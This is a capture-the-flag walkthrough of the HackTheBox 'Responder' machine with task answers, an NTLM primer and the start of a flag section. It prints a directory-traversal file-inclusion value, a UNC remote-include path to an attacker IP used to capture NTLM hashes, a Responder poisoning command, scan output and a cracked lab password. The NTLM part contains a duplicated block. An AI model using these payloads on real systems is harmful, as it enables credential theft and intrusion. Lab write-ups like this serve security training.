

<center>Responder</center>


[toc]


## Responder

> Responder


### 1. task

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

```shell
unika.htb
```

2. Which scripting language is being used on the server to generate webpages?



```shell
php

# 跳转，修改本机hosts文件
sudo vim /etc/hosts

服务器ip 
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage?

```shell
http://unika.htb/index.php?page=french.html
page
```

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

../../../../../../../../windows/system32/drivers/etc/hosts
```

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
//10.10.14.6/somefile
```

6. What does NTLM stand for?

```shell
New Technology LAN Manager
```

7. Which flag do we use in the Responder utility to specify the network interface?

```shell
-I
```

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```shell
john the ripper
```

9. What is the password for the administrator user?

```shell
badminton
```

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```shell
5985
```


### 2. NTLM协议

> NTLM (NT LAN Manager) 是一种挑战/响应认证协议：[ntlm](https://cloud.tencent.com/developer/article/2227928)

```shell
用于 Windows 网络认证
支持用户和计算机认证
提供消息完整性和机密性
包含 NTLMv1 和 NTLMv2 两个版本
```

````shell
1. windosw服务端


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```

2. linux 服务端


#### 安装必要组件
```bash
# Debian/Ubuntu
sudo apt update
sudo apt install samba winbind libpam-winbind libnss-winbind

# CentOS/RHEL
sudo dnf install samba samba-winbind
```


#### 配置 Samba
```ini:/etc/samba/smb.conf
[global]
    workgroup = WORKGROUP
    security = ads
    realm = DOMAIN.COM
    winbind use default domain = yes
    winbind enum users = yes
    winbind enum groups = yes
    template shell = /bin/bash
```


3. linux 客户端


#### 安装客户端工具
```bash
# Debian/Ubuntu
sudo apt install cntlm

# CentOS/RHEL
sudo dnf install cntlm
```


#### 配置 CNTLM
```ini:/etc/cntlm.conf
Username    domain_user
Domain      DOMAIN
Password    password
Proxy       proxy_server:8080
NoProxy     localhost, 127.0.0.*, 10.*, 192.168.*
Listen      3128
```

````


### 3. falg

> 获取flag
>
> Responder: [github](https://github.com/sponsors/lgandx)
>
> Responder 是一个 LLMNR、NBT-NS 和 MDNS 毒化器。 

```shell
# namp -p- 全端口  --min-rate 秒数，提高效率
nmap -v -p- --min-rate 5000 -sV -sC IP

80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Unika
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


sudo apt install responder

# 监听网卡
sudo responder -I tun0
```


